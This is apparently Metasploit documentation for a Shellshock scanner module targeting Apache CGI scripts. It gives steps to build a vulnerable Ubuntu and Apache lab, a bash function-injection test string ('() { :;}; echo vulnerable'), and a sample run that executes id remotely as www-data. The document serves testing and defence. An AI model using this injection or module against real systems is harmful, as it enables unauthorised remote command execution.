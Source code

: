 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the `HTTP_USER_AGENT` environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console
  3. run
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo) <br>
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
chmod +x /usr/lib/cgi-bin/test.sh
```

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```

## Verification Steps
1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

## Options
**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE** 

This is the CVE that will be used to exploit the vulnerability. 
The default setting is `CVE-2014-6271` but valid options are CVE-2014-6271 or CVE-2014-6278.

**HEADER**

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios
### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

